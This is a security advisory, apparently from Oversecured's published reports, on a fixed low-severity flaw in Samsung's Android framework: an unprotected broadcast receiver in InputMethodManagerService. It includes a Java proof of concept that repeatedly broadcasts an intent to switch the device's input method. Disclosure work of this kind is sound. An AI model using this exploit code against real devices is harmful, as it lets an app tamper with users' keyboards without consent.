

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Samsung Android Framework</td>
    </tr>
    <tr>
        <td>Library path</td>
        <td><code>/system/framework/services.jar</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.09.03</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2023.01.04</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Low</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td>N/A</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$250</td>
    </tr>
</table>

# Description

Oversecured report:


Oversecured found in the `com/android/server/inputmethod/InputMethodManagerService.java` file the registration of an unprotected dynamic receiver. The attacker could change the device input method by providing its hashcode (using the field `InputMethodInfo.mSubtypeHashCode/mSubtypeId`) via the passed `android.view.inputmethod.InputMethodSubtype` object and by specifying the `com.sec.android.inputmethod.Subtype` action.

**Proof of Concept**

```java
new Thread(() -> {
    InputMethodSubtype subtype = new InputMethodSubtype.InputMethodSubtypeBuilder()
            .setSubtypeId(0) // the id
            .build();

    Intent i = new Intent("com.sec.android.inputmethod.Subtype");
    i.putExtra("SamsungIME.Subtype", subtype);
    while (true) {
        sendBroadcast(i);
        try {
            Thread.sleep(100);
        } catch (Throwable th) {
            throw new RuntimeException(th);
        }
    }
}).start();
```

## References

- [Oversecured Blog. Discovering vendor-specific vulnerabilities in Android](https://blog.oversecured.com/Discovering-vendor-specific-vulnerabilities-in-Android/)
